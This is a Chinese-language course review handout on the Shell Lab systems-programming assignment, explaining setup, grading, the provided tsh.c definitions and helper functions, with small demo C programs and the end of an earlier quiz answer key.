8．B。大写 O 是优化级别，小写 o 指定输出文件的名字（第 6.1 节）。两者只差一个字母的大小写，正是测验喜欢考的地方。选项 A、C、D 都混淆了两者。
9．C。nm 中 U 表示在本模块中引用、却没有定义的符号，链接时由别的目标文件或库提供（第 15 讲）。验证环境中的 sym.c 是 int g = 1; static int s = 2; extern int u; int f(void){ return g + s + u; }，用 gcc -c 编译后，nm 把 u 显示为 U。选项 A 对应小写 t，选项 B 对应 D，选项 D 在 gcc 10 以后默认也放在 .bss 中，显示为 B。
—— L0 讲义完 ——
计算机系统导论（ICS）
复习讲义 · Lab 专题
Shell Lab：带作业控制的小 shell（Writing Your Own Linux Shell）
表 1 本讲义的内容地图
| 部分 | 内容 | 小节 |
|---|---|---|
| 上手与测评 | 环境、材料、编译方式的两个意外；构建、自测与评分；按 trace 分组的起步路线；提交前自检 | 0.1–0.4 |
| tsh.c 的定义与辅助函数 | 文件结构；第 6–109 行的头文件、常量、作业状态、解析状态、全局变量、两个结构体与函数原型；parseline；九个作业列表函数；出错处理；安全输出 sio；handler_t 与 Signal；main 函数；csapp.h 与 csapp.c；这些定义在内置命令中的用法；速查表 | 1.1–1.18 |
| eval 与处理程序要用的系统调用 | 返回值与 errno；fork 与 execve；进程组与 setpgid；kill；信号集与 sigprocmask；sigsuspend；waitpid；open、dup2、close 与重定向；用 strace 看 tshref；内置命令的步骤 | 2.1–2.10 |
| 内置命令 | eval 的分派；jobs 与重定向；%jid 与 pid 的解析及 tshref 的规则；kill 发什么信号、发给谁；bg 与 fg | 3.1–3.5 |
| 运行外部程序 | execve 失败之后；在 shell 中打开重定向文件；进程组；SIGTTIN 与 SIGTTOU；nohup；run_child 与 run_job 的全貌 | 4.1–4.6 |
| 信号处理程序 | 处理程序何时运行；status 的四种情况；循环回收；处理程序中的四条规矩；转发 ctrl-c 用 if | 5.1–5.5 |
| 竞争与阻塞 | 等待前台作业的三种写法；先 fork 后 addjob；查找与使用同在阻塞区；父子都 setpgid | 6.1–6.4 |
| 完整的 tsh.c 与打磨 | 参考解答与验证；检查返回值与包装函数；行宽、注释与函数划分；调试方法与架构的坑；错误写法一览 | 7.1–7.5 |
| 测验与自测 | 单选例题 8 道；速查表、易错点、自测题 8 道 | 第八、九部分 |
0 上手与测评#
Shell Lab 要在 tsh.c 里补全四个函数：eval 解释一行命令，sigchld_handler、sigint_handler、sigtstp_handler 处理三种信号。另外大约 600 行已经由实验提供：命令行解析、作业列表的增删查、安全输出、信号安装。补全的四个函数几乎每一行都要调用这些现成的东西，所以第一步是读懂它们，这正是第一部分的内容（各部分的内容见 表 1）；第二部分讲要用到的系统调用，第三至七部分按动手的顺序写出完整的 tsh，并逐一分析容易犯的错误。
0.1 环境与材料#
在 Autolab 下载 tshlab-handout.tar，在 Linux 上用 tar xvf 解开，其中的文件及用途见 表 2。参考 shell tshref、评分程序 sdriver 和 runtrace 都是 x86-64 Linux 程序，在 Apple Silicon 的 Mac 上不能运行，测试要在课程的 Linux 容器里做。
表 2 Shell Lab 的材料与用途
| 文件 | 用途 | 使用要点 |
|---|---|---|
| tshlab.pdf | 官方实验说明（13 页） | §5 是 tsh 必须具备的功能，§7 是警告，§8 是提示，附录是 31 个 trace 各测什么 |
| tsh.c | 唯一要修改、也是唯一要提交的文件 | 开头注释里写姓名和学号 |
| tshref | 参考 shell | 行为有疑问时以它为准；输出除 PID 外必须与它逐字相同 |
| runtrace | 按一个 trace 文件驱动 shell | ./runtrace -f trace05.txt -s ./tsh |
| sdriver | 评分程序 | 把每个 trace 跑 4 遍，和 tshref 的输出比较 |
| trace00–trace30 | 31 个测试脚本 | 编号越大越复杂；WAIT、SIGNAL、NEXT 等是驱动程序的同步命令 |
| myspin1、mytstpp 等 14 个程序 | trace 中运行的测试程序 | 它们靠环境变量 SYNCFD 与驱动程序同步（第 1.6 节） |
| fork.c | 在 fork 之后随机睡眠 0–0.1 秒 | 通过链接选项替换 fork，专门暴露竞争 |
| csapp.c、csapp.h | 教材的包装函数库 | 只作参考，不参与链接（第 1.16 节） |
| Makefile、config.h | 构建与驱动程序配置 | 不要修改 |
Makefile 里构建 tsh 的规则只有一行，它决定了两件容易出乎意料的事：
CC = /usr/bin/gcc
CFLAGS = -Wall -g -Werror
tsh: tsh.c fork.c
$(CC) $(CFLAGS) -Wl,--wrap,fork -o tsh tsh.c fork.c $(LIBS)第一，-Werror 把所有警告当成错误。调试时声明了一个变量却没有用到，或者调用了一个没有声明的函数，编译就会失败。第二，参与链接的只有 tsh.c 和 fork.c，csapp.c 不在其中，所以教材里常见的 Fork、Kill、Sigprocmask 等首字母大写的包装函数在 tsh.c 里都不能直接调用。在默认环境上用同样的选项编译两个小程序，可以看到这两种失败：
/* unused.c：-Wall -Werror 下，声明了却没用的变量会让编译失败 */
int main(void)
{
int bg;
return 0;
}/* fork_call.c：在 tsh.c 里直接调用 csapp.c 的包装函数 Fork 会怎样
* （tsh 只由 tsh.c 和 fork.c 链接而成） */
#include <unistd.h>
int main(void)
{
pid_t pid = Fork();
return pid < 0;
}$ gcc -Wall -g -Werror -o unused unused.c
error: unused variable 'bg' [-Werror=unused-variable]
cc1: all warnings being treated as errors
$ gcc -Wall -g -Werror -o fork_call fork_call.c
error: implicit declaration of function 'Fork'; did you mean 'fork'?
[-Werror=implicit-function-declaration]
cc1: all warnings being treated as errors-Wl,--wrap,fork 是链接时打桩（教材 7.13 节）：tsh.c 里每一处对 fork 的调用都被换成 fork.c 中的 __wrap_fork。它先调用真正的 fork，再随机挑父进程或子进程睡眠最多 0.1 秒。于是“fork 之后谁先运行”每次都可能不同，只在某种顺序下才出现的错误会在反复测试中暴露出来。
0.2 构建、自测与评分#
make # 编译 tsh、驱动程序和全部测试程序
./tsh # 手动运行自己的 shell
./tshref # 手动运行参考 shell，对照行为
./runtrace -f trace05.txt -s ./tsh # 用一个 trace 驱动自己的 shell
./runtrace -f trace05.txt -s ./tshref
./sdriver -t 06 -V # 只测 trace06，并显示两边的完整输出
./sdriver # 全部 31 个 trace，各跑 4 遍评分只看 sdriver：31 个 trace 中前 7 个各 4 分，其余 24 个各 3 分，共 100 分；一个 trace 跑 4 遍都与 tshref 一致才得分。输出中 PID 允许不同，trace19 里 /bin/ps 的输出只比较 mysplit 进程的状态。在此之外还有两项人工检查：靠 sleep 掩盖竞争、只是“碰巧通过”的代码会被扣分；代码风格要符合 CMU 的风格要求（文件头注释、函数注释、每个系统调用都检查返回值、每行不超过 80 列、把很长的 eval 拆成若干辅助函数）。提交只交 tsh.c，最多 32 次，以最后一次为准。
0.3 起步路线#
trace 的编号大致就是功能的实现顺序。表 3 按功能把 31 个 trace 分成十一组，每组列出要做的事、要先读的小节（第一部分的定义与第三至六部分的实现）和最常见的卡点。
表 3 按 trace 分组的起步路线
| trace | 测什么 | 先读 | 常见卡点 |
|---|---|---|---|
| 00–01 | 读到 EOF 退出；内置命令 quit | 1.15、3.1 | 骨架的 main 已处理 EOF，quit 只需在 eval 里识别 BUILTIN_QUIT |
| 02–04 | 前台运行程序（带或不带参数） | 1.6、1.10、4.1、6.1 | execve 的第三个参数必须是 environ，否则 trace02 之后的同步全部失败 |
| 05–07 | 后台作业与 jobs | 1.11、3.2、4.6 | 先 addjob 再打印“[jid] (pid) 命令行”；jobs 直接调用 listjobs |
| 08–12 | 前台作业被信号终止或停止 | 1.13、5.1–5.4 | 处理程序里只能用 sio 系列输出；被停止的作业要改成 ST 而不是删除 |
| 13–14 | ctrl-c、ctrl-z 只发给前台作业 | 1.11、5.5 | 没有前台作业时什么也不做 |
| 15–18 | 内置命令 bg、fg | 3.3、3.5、6.3 | 参数可能是 %jid 也可能是 pid，两种都要支持 |
| 19–21 | 信号发给整个进程组 | 4.3、5.5、6.4 | 子进程要 setpgid(0, 0)；kill 的第一个参数用 -pid |
| 22–24 | 输入、输出重定向 | 1.10、3.2、4.2 | parseline 已把文件名放进 tok.infile、tok.outfile；内置命令 jobs 也要支持重定向 |
| 25 | nohup | 4.5 | argv[0] 是 "nohup"，真正要运行的程序从 argv[1] 开始 |
| 26–28、30 | 内置命令 kill | 3.3、3.4 | 负数参数表示整个进程组；找不到作业时的提示语要与 tshref 逐字相同 |
| 29 | ctrl-z 之后用 bg 继续 | 3.5、5.2 | 作业状态 FG → ST → BG 的转换 |
动手之前，先在 Linux 上运行几次 tshref：启动一个 ./myspin1 10 &，输入 jobs、bg、fg、kill，用 ctrl-z、ctrl-c 打断前台作业，记下每一种情况的输出格式。自己的 shell 要逐字复现这些输出。
0.4 提交前自检#
提交之前，按 表 4 逐项检查一遍。
表 4 提交前自检
| 项目 | 怎样检查 |
|---|---|
| 姓名与学号 | tsh.c 开头的注释已填写 |
| 全部 trace | ./sdriver 得 100 分，最好再用 -i 10 多跑几遍，偶尔失败说明有竞争 |
| 不靠 sleep 同步 | 等待前台作业用 sigsuspend，不用 while (1);，也不用循环里的 sleep |
| waitpid 只出现一处 | 实验说明 §7 要求不要在多处调用 waitpid，通常只在 sigchld_handler 中回收子进程 |
| 处理程序只调用异步信号安全的函数 | 处理程序里没有 printf、malloc；输出用 sio_put、sio_puts（第 1.13 节） |
| 检查返回值 | 每个系统调用（fork、execve、kill、setpgid、sigprocmask、open、dup2、close……）都检查返回值 |
| 不碰终端进程组 | 没有调用 tcsetpgrp 等终端控制函数 |
| 架构 | 在运行 sdriver 的同一台 x86-64 机器上编译，file tsh 显示 x86-64（第 7.4 节） |
| 风格 | 每行不超过 80 列，不混用空格与制表符，eval 拆成若干辅助函数，每个函数有注释 |
第一部分 tsh.c 的定义与辅助函数#
1.1 tsh.c 的结构#
handout 中的 tsh.c 共 797 行，要自己写的只有四个函数体，其余都是实验已经写好的定义和辅助函数。按从上到下的顺序，它分成 表 5 中的几块。本部分逐块讲解第 6–109 行的全部定义，再讲 main 和这些辅助函数的实现与用法。行号以 handout 原始文件为准；在文件开头加注释之后，后面的行号会相应后移，但内容和顺序不变。
表 5 tsh.c 的各个部分
| 行号 | 内容 | 谁写 | 本讲义 |
|---|---|---|---|
| 1–5 | 文件头注释：在这里写姓名、学号 | 自己 | 0.1 |
| 6–17 | 12 个头文件 | 已给 | 1.2 |
| 19–44 | 常量、作业状态、解析状态（全部是 #define） | 已给 | 1.3–1.5 |
| 46–76 | 全局变量、struct job_t 与作业列表、struct cmdline_tokens | 已给 | 1.6–1.8 |
| 78–109 | 函数原型与 handler_t 类型 | 已给 | 1.9、1.14 |
| 112–186 | main：安装信号处理程序，读—求值循环 | 已给 | 1.15 |
| 188–214 | eval：解释一行命令 | 自己 | 后续部分 |
| 216–366 | parseline：把命令行切成参数 | 已给 | 1.10 |
| 369–421 | 四个信号处理程序，前三个是空函数 | 自己写前三个 | 后续部分 |
| 424–603 | 九个作业列表函数 | 已给 | 1.11 |
| 607–796 | usage、unix_error、app_error、sio 系列、Signal | 已给 | 1.12–1.14 |
图 1 把这些部分之间的调用关系画在一起。main 负责安装信号处理程序和读命令；每读到一行就交给 eval；eval 先调用 parseline 把这一行拆开，再根据结果运行内置命令或者创建子进程，并通过作业列表函数记录作业；三个信号处理程序在信号到来时被内核调用，它们同样要查询和修改作业列表，输出只能用 sio 系列函数。
图 1 tsh.c 中各部分的调用关系（橙色是要自己写的函数）
1.2 头文件（第 6–17 行）#
#include <assert.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <ctype.h>
#include <signal.h>
#include <sys/types.h>
#include <fcntl.h>
#include <sys/wait.h>
#include <errno.h>
#include <stdarg.h>头文件只提供声明，不提供实现；函数的代码在 C 标准库（libc）里，链接时自动加入。实现 tsh 需要的所有库函数都已经由这 12 个头文件声明，一般不需要再加 include。表 6 列出每个头文件中 tsh 会用到的名字，括号里是 handout 已给代码中用到它的地方。
表 6 12 个头文件分别提供什么
| 头文件 | tsh 会用到的名字 | 已给代码中的用处 |
|---|---|---|
| assert.h | assert | 没有用到，可用于调试时检查不变量 |
| stdio.h | printf、fprintf、sprintf、fgets、fflush、feof、ferror、stdin、stdout、stderr | main 的读—求值循环；addjob 的 verbose 输出 |
| stdlib.h | exit、atoi、strtol | usage、unix_error 中的 exit |
| unistd.h | fork、execve、setpgid、getpid、dup2、close、write、_exit、getopt、sleep、STDIN_FILENO、STDOUT_FILENO | main 的 dup2 和 getopt；listjobs、sio 系列的 write |
| string.h | strlen、strcpy、strncpy、strcmp、strspn、strcspn、strchr、strerror、memset | parseline 切分命令行；addjob 复制命令行；unix_error |
| ctype.h | isdigit 等字符分类函数 | 没有用到，可用于判断 bg、fg 的参数是不是数字 |
| signal.h | sigaction、kill、sigset_t、sigemptyset、sigfillset、sigaddset、sigprocmask、sigsuspend、SIGINT 等信号名、SIG_DFL、SIG_IGN | Signal 函数 |
| sys/types.h | pid_t 等类型 | struct job_t 的 pid 字段 |
| fcntl.h | open、O_RDONLY、O_WRONLY、O_CREAT、O_TRUNC | 没有用到，I/O 重定向时打开文件要用 |
| sys/wait.h | waitpid、WNOHANG、WUNTRACED、WIFEXITED、WIFSIGNALED、WTERMSIG、WIFSTOPPED、WSTOPSIG | 没有用到，sigchld_handler 回收子进程时要用 |
| errno.h | errno、EINTR、ECHILD、ESRCH | unix_error 打印 errno 对应的说明 |
| stdarg.h | va_list、va_start、va_arg、va_end | sio_put 的可变参数 |
这张表也是写代码时的一份查找表：实验说明 §8 提示要用到的 waitpid、kill、fork、execve、setpgid、sigprocmask、sigsuspend，分别在 sys/wait.h、signal.h、unistd.h 中，都已经包含了。
1.3 常量（第 19–23 行）#
/* Misc manifest constants */
#define MAXLINE 1024 /* max line size */
#define MAXARGS 128 /* max args on a command line */
#define MAXJOBS 16 /* max jobs at any point in time */
#define MAXJID 1<<16 /* max job ID */#define 名字 内容 是预处理器的文本替换：编译之前，源文件中所有出现这个名字的地方都被原样换成后面的内容，它不是变量，不占内存，也没有类型。这四个常量规定了 tsh 中各种数组的大小。
MAXLINE 是一行命令的最大长度（字节），main 中的 char cmdline[MAXLINE]、struct job_t 中保存命令行的 cmdline[MAXLINE]、全局的 sbuf[MAXLINE] 都用它。fgets 最多读 MAXLINE − 1 个字符，再加一个结尾的 '\0'。
MAXARGS 是一行命令最多的参数个数，struct cmdline_tokens 中 argv[MAXARGS] 的大小。parseline 在 argc 达到 MAXARGS − 1 时停止，留一个位置放结尾的 NULL，因为 execve 要求 argv 以 NULL 结束。
MAXJOBS 是同时存在的作业数上限，作业列表 job_list[MAXJOBS] 只有 16 个槽位。第 17 个作业加入时 addjob 会打印“Tried to create too many jobs”并返回 0（第 1.11 节的实验）。
MAXJID 是作业号的上限，但整个 tsh.c 中没有任何地方用到它；addjob 实际是在作业号超过 MAXJOBS 时从 1 重新开始的。这个宏还有一个 C 语言中的典型问题：替换内容 1<<16 没有加括号，放进表达式后会和周围的运算符重新结合。下面的程序照抄这一行，再与加了括号的写法对比：
/* maxjid.c：没有加括号的宏 MAXJID 在表达式里会出什么问题 */
#include <stdio.h>
#define MAXJID 1<<16 /* 照抄 tsh.c 第 23 行 */
#define MAXJID2 (1<<16) /* 加了括号的写法 */
int main(void)
{
printf("MAXJID = %d\n", MAXJID);
printf("MAXJID / 2 = %d （展开为 1<<16/2，即 1<<(16/2)）\n", MAXJID / 2);
printf("MAXJID - 1 = %d （展开为 1<<16-1，即 1<<15）\n", MAXJID - 1);
printf("MAXJID2 / 2 = %d\n", MAXJID2 / 2);
return 0;
}MAXJID = 65536
MAXJID / 2 = 256 （展开为 1<<16/2，即 1<<(16/2)）
MAXJID - 1 = 32768 （展开为 1<<16-1，即 1<<15）
MAXJID2 / 2 = 32768移位运算 << 的优先级低于 / 和 -，所以 MAXJID / 2 先算 16/2，结果是 256 而不是 32768。gcc -Wall 只对减法那一行给出了警告“suggest parentheses around '-' inside '<<'”，除法那一行没有任何提示。自己定义宏时，替换内容如果是表达式，就整体加上括号。
1.4 作业状态（第 25–39 行）#
/* Job states */
#define UNDEF 0 /* undefined */
#define FG 1 /* running in foreground */
#define BG 2 /* running in background */
#define ST 3 /* stopped */
/*
* Jobs states: FG (foreground), BG (background), ST (stopped)
* Job state transitions and enabling actions:
* FG -> ST : ctrl-z
* ST -> FG : fg command
* ST -> BG : bg command
* BG -> FG : fg command
* At most 1 job can be in the FG state.
*/这四个整数是 struct job_t 中 state 字段的取值。UNDEF（0）表示“这个槽位没有作业”，clearjob 把槽位清空时写的就是它；FG 表示正在前台运行，BG 表示正在后台运行，ST 表示已被停止（暂停，还没有终止）。它们只是 tsh 自己记账用的数字，内核并不知道一个进程是“前台”还是“后台”；改变作业状态，既要向进程发信号，也要修改作业列表中的 state 字段，两件事都要做。
注释给出了四种状态转换。图 2 把它们画成状态图，并补上了注释没有写出的两类转换：作业从无到有（eval 调用 addjob 时直接写入 FG 或 BG），以及作业终止后被回收（sigchld_handler 调用 deletejob，槽位回到 UNDEF）。图中每条箭头上方是触发它的事件，下方是 tsh 中执行这次转换的地方。
图 2 作业的状态转换与触发它们的事件
ctrl-z 并不是唯一让作业进入 ST 的途径：trace12 中的 mytstps 自己给自己发 SIGTSTP，后台作业也可能被其他进程发来的 SIGTSTP 停止。不论原因是什么，内核都会给 tsh 发 SIGCHLD，tsh 在 sigchld_handler 中用 waitpid 得知“子进程停止了”，再把 state 改成 ST（图中只画了最常见的 FG → ST）。同理，作业终止也统一在 sigchld_handler 中处理。所以图中进入 ST 和回到 UNDEF 的转换都标着 sigchld_handler，而 ST 到 FG、BG 的转换都在 eval 中完成。
注释最后一句“At most 1 job can be in the FG state”是整个设计的前提：同一时刻最多一个前台作业。fgpid（第 1.11 节）找到第一个 state 为 FG 的作业就返回，正是依赖这一点。
1.5 解析状态（第 40–44 行）#
/* Parsing states */
#define ST_NORMAL 0x0 /* next token is an argument */
#define ST_INFILE 0x1 /* next token is the input file */
#define ST_OUTFILE 0x2 /* next token is the output file */这三个常量只在 parseline 内部使用，记录“下一个词应该放到哪里”：遇到 < 时把状态置为 ST_INFILE，下一个词就是输入文件名；遇到 > 时置为 ST_OUTFILE；放好一个词后回到 ST_NORMAL。三个值是 0、1、2，按位或之后 < 紧跟着 >（例如 cat < > x）会得到 3，parseline 在 switch 中把它当作“重定向有歧义”报错。写 eval 和处理程序时用不到它们；名字以 ST_ 开头，但和作业状态 ST（已停止）毫无关系。
1.6 全局变量（第 46–51 行）#
/* Global variables */
extern char **environ; /* defined in libc */
char prompt[] = "tsh> "; /* command line prompt (DO NOT CHANGE) */
int verbose = 0; /* if true, print additional output */
int nextjid = 1; /* next job ID to allocate */
char sbuf[MAXLINE]; /* for composing sprintf messages */全局变量定义在所有函数之外，整个程序运行期间只有一份，main、eval、parseline、处理程序和作业列表函数都可以直接读写。这一点对处理程序尤其重要：信号处理程序的参数只有一个信号编号，它要知道“前台作业是哪个”，只能通过全局的作业列表。
第一个是 environ。extern 表示“这个变量在别处定义，这里只是声明”，environ 定义在 C 库中，指向当前进程的环境变量表：一个以 NULL 结尾的字符串数组，每一项形如 "PATH=/usr/bin:..."。它的唯一用处是作为 execve 的第三个参数，让子进程继承 tsh 的环境变量。这一点在 trace02 之后变得至关重要：runtrace 启动 tsh 之前设置了环境变量 SYNCFD，myspin1 等测试程序靠它找到与驱动程序同步的套接字；如果 execve 传入的是空环境，测试程序就收不到同步信号，trace 中的 WAIT 会一直等到超时。下面的程序对比两种传法：
/* envexec.c：execve 的第三个参数决定新程序看到哪些环境变量 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>
extern char **environ; /* tsh.c 第 47 行的同一个声明 */
static void run(char *const envp[], const char *what)
{
char *argv[] = {"/usr/bin/printenv", "SYNCFD", NULL};
printf("%s：", what);
fflush(stdout);
if (fork() == 0) {
execve(argv[0], argv, envp);
perror("execve");
_exit(127);
}
int status;
wait(&status);
if (WIFEXITED(status) && WEXITSTATUS(status) == 1)
printf("（printenv 找不到 SYNCFD，退出码 1）\n");
}
int main(void)
{
char *empty[] = {NULL};
setenv("SYNCFD", "5", 1); /* runtrace 用 putenv 设置同名变量 */
run(environ, "execve(..., environ)");
run(empty, "execve(..., 空环境)");
return 0;
}execve(..., environ)：5
execve(..., 空环境)：（printenv 找不到 SYNCFD，退出码 1）prompt 是提示符字符串 "tsh> "，main 在每次读命令之前打印它（运行 tsh 时加 -p 选项则不打印）。驱动程序 runtrace（sdriver 通过它运行 shell）读 shell 的输出，直到读到这个字符串，才认为 shell 已经准备好接收下一条命令，所以注释写着不要修改。
verbose 记录 tsh 是否带 -v 选项运行，带 -v 时 main 把它置为 1。handout 中只有 addjob 读它：为 1 时每加入一个作业就打印一行“Added job [jid] pid 命令行”。自己写代码时也可以在调试输出前判断它，正式运行时不加 -v，这些输出就不会干扰评分。
nextjid 是下一个要分配的作业号，初值为 1，它由 addjob 和 deletejob 维护（第 1.11 节），自己的代码只需要读作业的 jid 字段，不需要碰它。
sbuf 是一个 1024 字节的公共缓冲区，注释说用来“拼接 sprintf 的消息”：先用 sprintf(sbuf, 格式, ...) 把要输出的内容格式化到 sbuf 中，再输出。它是普通的全局数组，handout 中没有任何地方用到；不用它、自己定义局部数组也完全可以。sprintf 不是异步信号安全的函数，不能在信号处理程序中使用，处理程序里的输出要用 sio 系列（第 1.13 节）。
1.7 struct job_t 与作业列表（第 53–59 行）#
struct job_t { /* The job struct */
pid_t pid; /* job PID */
int jid; /* job ID [1, 2, ...] */
int state; /* UNDEF, BG, FG, or ST */
char cmdline[MAXLINE]; /* command line */
};
struct job_t job_list[MAXJOBS]; /* The job list */struct job_t 定义了一种新类型，描述一个作业的四项信息：pid 是作业中那个子进程的进程号（pid_t 实际是 int）；jid 是 tsh 分配的作业号，从 1 开始，用户在命令行中写成 %1、%2；state 是第 1.4 节的四个状态之一；cmdline 保存这个作业的整行命令文本，jobs 命令和各种提示信息都要原样打印它。
第 59 行用这个类型定义了全局数组 job_list，它就是作业列表：16 个槽位，每个槽位一个 struct job_t。全局数组在程序启动时自动清零，main 还会调用 initjobs 再清一遍。一个槽位“空着”的标志是 pid 为 0；addjob 找第一个 pid 为 0 的槽位放新作业，deletejob 把槽位清回 0。作业在数组中的下标和作业号没有对应关系，图 3 是第 1.11 节实验中删除、再加入作业之后的真实状态：jid 为 4 的作业放在下标 1，因为那里是第一个空槽位。
图 3 作业列表 job_list：16 个槽位，pid 为 0 表示空槽位（第 1.11 节实验中加入 1001–1003、删除 1002、再加入 1004 之后）
访问结构体的字段有两种写法。数组元素本身是结构体，用点号，例如 job_list[i].pid；拿到的是指向结构体的指针时（getjobpid、getjobjid 的返回值），用箭头，例如 job->state = BG，它等价于 (*job).state = BG。修改通过指针进行，改的就是作业列表中那个槽位本身。在默认环境上，sizeof(struct job_t) 是 1036 字节（三个 4 字节整数加 1024 字节的命令行），整个 job_list 是 16 576 字节。
1.8 struct cmdline_tokens 与 enum builtins_t（第 61–76 行）#
struct cmdline_tokens {
int argc; /* Number of arguments */
char *argv[MAXARGS]; /* The arguments list */
char *infile; /* The input file */
char *outfile; /* The output file */
enum builtins_t { /* Indicates if argv[0] is a builtin command */
BUILTIN_NONE,
BUILTIN_QUIT,
BUILTIN_JOBS,
BUILTIN_BG,
BUILTIN_FG,
BUILTIN_KILL,
BUILTIN_NOHUP} builtins;
};
/* End global variables */这个结构体是 parseline 的输出：eval 定义一个 struct cmdline_tokens tok; 局部变量，把它的地址传给 parseline，parseline 把解析结果填进去。五个字段分别是：
- argc：参数个数，不含重定向的部分，也不含结尾的 &；
- argv：参数数组，argv[0] 是命令名，argv[argc] 是 NULL，可以直接交给 execve；
- infile：< 后面的文件名，没有输入重定向时为 NULL；
- outfile：> 后面的文件名，没有输出重定向时为 NULL；
- builtins：argv[0] 是哪个内置命令。
builtins 的类型是在结构体内部定义的枚举 enum builtins_t。枚举把一组名字依次对应到整数 0、1、2……：BUILTIN_NONE 是 0（不是内置命令），BUILTIN_QUIT 是 1，依此类推到 BUILTIN_NOHUP 是 6。它的用处是让判断内置命令时不必再比较字符串：parseline 已经用 strcmp 比较过一次，eval 只要看 tok.builtins 是哪个名字。用 switch 写最清楚：
switch (tok.builtins) {
case BUILTIN_QUIT: /* 退出 shell */ break;
case BUILTIN_JOBS: /* 列出作业 */ break;
case BUILTIN_BG:
case BUILTIN_FG: /* 继续一个作业 */ break;
case BUILTIN_KILL: /* 给作业发 SIGTERM */ break;
case BUILTIN_NOHUP: /* 忽略 SIGHUP 后运行 */ break;
case BUILTIN_NONE: /* 不是内置命令：创建子进程运行它 */ break;
}在默认环境上，sizeof(struct cmdline_tokens) 是 1056 字节，其中 argv 数组占 128 × 8 = 1024 字节，但它只保存指针，指向的字符串在 parseline 内部的一个静态数组里（第 1.10 节）。
1.9 函数原型（第 78–109 行）#
/* Function prototypes */
void eval(char *cmdline);
void sigchld_handler(int sig);
void sigtstp_handler(int sig);
void sigint_handler(int sig);
/* Here are helper routines that we've provided for you */
int parseline(const char *cmdline, struct cmdline_tokens *tok);
void sigquit_handler(int sig);
void clearjob(struct job_t *job);
void initjobs(struct job_t *job_list);
int maxjid(struct job_t *job_list);
int addjob(struct job_t *job_list, pid_t pid, int state, char *cmdline);
int deletejob(struct job_t *job_list, pid_t pid);
pid_t fgpid(struct job_t *job_list);
struct job_t *getjobpid(struct job_t *job_list, pid_t pid);
struct job_t *getjobjid(struct job_t *job_list, int jid);
int pid2jid(pid_t pid);
void listjobs(struct job_t *job_list, int output_fd);
void usage(void);
void unix_error(char *msg);
void app_error(char *msg);
ssize_t sio_puts(char s[]);
ssize_t sio_putl(long v);
ssize_t sio_put(const char *fmt, ...);
void sio_error(char s[]);
typedef void handler_t(int);
handler_t *Signal(int signum, handler_t *handler);函数原型（声明）只写返回类型、函数名和参数类型，以分号结尾，函数体写在文件后面。C 编译器从上往下读文件，调用一个函数之前必须已经见过它的声明；把所有原型集中放在 main 之前，函数的定义就可以按任意顺序排列。自己新写的辅助函数（例如把 eval 拆出来的 do_bgfg）也要在这里补一行原型，否则在 -Werror 下会因“implicit declaration”编译失败。
表 7 把这些函数按“谁写、谁调用”归类，并列出返回值的含义，最后一列是本讲义中详细讲解的位置。
表 7 第 78–109 行声明的函数
| 函数 | 作用 | 返回值 | 小节 |
|---|---|---|---|
| eval | 解释一行命令（自己写） | 无 | 后续部分 |
| sigchld_handler 等三个 | SIGCHLD、SIGTSTP、SIGINT 的处理程序（自己写） | 无 | 后续部分 |
| parseline | 把命令行拆成 struct cmdline_tokens | 1 后台，0 前台，−1 格式错误 | 1.10 |
| sigquit_handler | SIGQUIT 的处理程序：打印一行后退出 | 无 | 1.15 |
| clearjob、initjobs | 清空一个槽位、清空整个作业列表 | 无 | 1.11 |
| maxjid | 当前最大的作业号 | 作业号，没有作业时为 0 | 1.11 |
| addjob | 加入一个作业 | 1 成功，0 失败 | 1.11 |
| deletejob | 按 pid 删除一个作业 | 1 删除了，0 没找到 | 1.11 |
| fgpid | 前台作业的 pid | pid，没有前台作业时为 0 | 1.11 |
| getjobpid、getjobjid | 按 pid、按 jid 查找作业 | 指向槽位的指针，没找到为 NULL | 1.11 |
| pid2jid | pid 换成 jid | jid，没找到为 0 | 1.11 |
| listjobs | 把作业列表写到一个描述符 | 无 | 1.11 |
| usage、unix_error、app_error | 打印用法、系统调用错误、一般错误，然后退出 | 不返回 | 1.12 |
| sio_puts、sio_putl、sio_put | 异步信号安全的输出 | 写出的字节数，出错为 −1 | 1.13 |
| sio_error | 安全地输出一行后立即退出 | 不返回 | 1.13 |
| Signal | 安装信号处理程序 | 原来的处理方式 | 1.14 |
注意 pid2jid 的参数里没有 job_list，它直接访问全局数组；其余作业列表函数都把作业列表作为第一个参数。函数参数 job_list 与全局变量同名，在函数内部参数会遮住全局变量，但调用时传的就是全局的 job_list，两者是同一个数组。
最后两行中的 typedef void handler_t(int); 定义了一个函数类型，handler_t * 就是“指向这种函数的指针”。它是理解 Signal 的关键，放在第 1.14 节和 Signal 一起讲。
1.10 parseline：把命令行拆开#
/*
* parseline - Parse the command line and build the argv array.
*
* Parameters:
* cmdline: The command line, in the form:
*
* command [arguments...] [< infile] [> oufile] [&]
*
* tok: Pointer to a cmdline_tokens structure. The elements of this
* structure will be populated with the parsed tokens. Characters
* enclosed in single or double quotes are treated as a single
* argument.
* Returns:
* 1: if the user has requested a BG job
* 0: if the user has requested a FG job
* -1: if cmdline is incorrectly formatted
*
* Note: The string elements of tok (e.g., argv[], infile, outfile)
* are statically allocated inside parseline() and will be
* overwritten the next time this function is invoked.
*/
int
parseline(const char *cmdline, struct cmdline_tokens *tok) parseline 接收一行命令（main 已经去掉了结尾的换行），把结果填进 tok 指向的结构体，返回值告诉调用者这是前台作业、后台作业还是格式错误。handout 中 eval 的骨架已经写好了调用它的部分：
void
eval(char *cmdline)
{
int bg; /* should the job run in bg or fg? */
struct cmdline_tokens tok;
/* Parse command line */
bg = parseline(cmdline, &tok);
if (bg == -1) /* parsing error */
return;
if (tok.argv[0] == NULL) /* ignore empty lines */
return;
return;
}骨架中的两个 if 都要保留：格式错误时 parseline 已经打印了错误信息，eval 直接返回即可；空行时 argv[0] 是 NULL，也直接返回。自己的代码从最后一个 return 之前开始写。
切分的过程#
parseline 先把命令行复制到函数内部的静态数组 array 中，然后用一个指针 buf 从左到右扫描：
static char array[MAXLINE]; /* holds local copy of command line */
const char delims[10] = " \t\r\n"; /* argument delimiters (white-space) */
char *buf = array; /* ptr that traverses command line */
char *next; /* ptr to the end of the current arg */
char *endbuf; /* ptr to end of cmdline string */
...
while (buf < endbuf) {
/* Skip the white-spaces */
buf += strspn (buf, delims);
if (buf >= endbuf) break;
/* Check for I/O redirection specifiers */
if (*buf == '<') { ...; parsing_state |= ST_INFILE; buf++; continue; }
if (*buf == '>') { ...; parsing_state |= ST_OUTFILE; buf++; continue; }
